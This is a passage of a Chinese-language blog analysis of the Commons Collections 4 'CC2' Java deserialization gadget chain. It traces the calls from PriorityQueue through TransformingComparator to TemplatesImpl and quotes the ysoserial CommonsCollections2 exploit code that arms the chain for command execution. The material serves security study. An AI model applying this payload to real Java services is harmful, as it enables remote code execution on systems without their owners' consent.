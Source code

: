 在`siftDownUsingComparator()`方法中，会调用`comparator.compare()`方法去进行排序和对比，此时new一个`TransformingComparator`类型的对象，则会进入到`org.apache.commons.collections4.comparators.TransformingComparator#compare`中

![4.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/77a4c8f7-d9ad-1508-a647-9ad53051eee4.png)

而在`org.apache.commons.collections4.comparators.TransformingComparator#compare`中，会去调用`this.transformer.transform()`，到这里应该就很熟悉了，在往下会去调用`org.apache.commons.collections4.functors.InvokerTransformer#transform`，可以通过反射去执行命令

![5.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/41267a0c-8352-fde7-e446-e6beef404da3.png)

下面是ysoserial的exp

```
public Queue<Object> getObject(final String command) throws Exception {
	final Object templates = Gadgets.createTemplatesImpl(command);
	// mock method name until armed
	final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

	// create queue with numbers and basic comparator
	final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
	// stub data for replacement later
	queue.add(1);
	queue.add(1);

	// switch method called by comparator
	Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

	// switch contents of queue
	final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
	queueArray[0] = templates;
	queueArray[1] = 1;

	return queue;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections2.class, args);
	}
```

这里大概的介绍一下整个流程，首先通过`Javassist`向`TemplatesImpl`的`_bytecodes`字段中加入想要执行的命令，然后通过反射将其加入到`PriorityQueue`队列中，到最后触发命令

而其并不是和cc5一样通过反射去执行命令，而是触发`newTransformer`方法实例化恶意类达到命令执行的效果，在`newTransformer`方法中会进入到`getTransletInstance()`

![6.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/5de4d689-aaa7-432f-cc91-5edf8df6f46e.png)

跟进到`getTransletInstance()`中，`_class == null`进入到`defineTransletClasses()`中，然后会将`_bytecodes`的值赋值给`_class`，然和返回到`getTransletInstance()`中
